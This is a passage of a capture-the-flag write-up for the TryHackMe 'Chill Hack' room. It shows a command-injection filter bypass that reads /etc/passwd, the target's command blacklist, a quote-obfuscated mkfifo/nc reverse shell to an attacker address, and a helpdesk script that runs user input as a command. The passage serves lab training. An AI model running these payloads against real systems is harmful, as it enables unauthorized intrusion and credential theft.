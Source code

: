 Interesting directory here is 

* secret


### __Second Stage : Initial access as www-data__

Let's visit it .

![](/TryHackMe/Chill_Hack/secret.png)


I captured the request in __Burpsuite__ and sent it to repeater.

So if I send the command **ls**  I get a "Are you a Hacker" message . So I searched for __'bash command injection filter bypass'__ in google and found this [link](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#filter-bypasses)

The filter which worked was :

>cat$IFS/etc/passwd

![](/TryHackMe/Chill_Hack/burp.png)


__We need to see what commands are blacklisted in order to get a proper reverse shell.__

Hence we try

>cat${IFS}index.php

So if we go to the source code we can see the index.php .

![blacklist](/TryHackMe/Chill_Hack/blacklist.png)

```
'nc', 'python', 'bash','php','perl','rm','cat','head','tail','python3','more','less','sh','ls'
```
After trying many filters I came to conclusion that I have to use double quotes filter to get a reverse shell.

>r"m" /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc \<ip> 1234 >/tmp/f



### __Third Stage : www-data to apaar__


So our first step is to run **linpeas** script and get info on privilege escalation to user.

After running we get :

![](/TryHackMe/Chill_Hack/linpeas1.png)


And the contents of **.helpline.sh** are :

```shell
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```
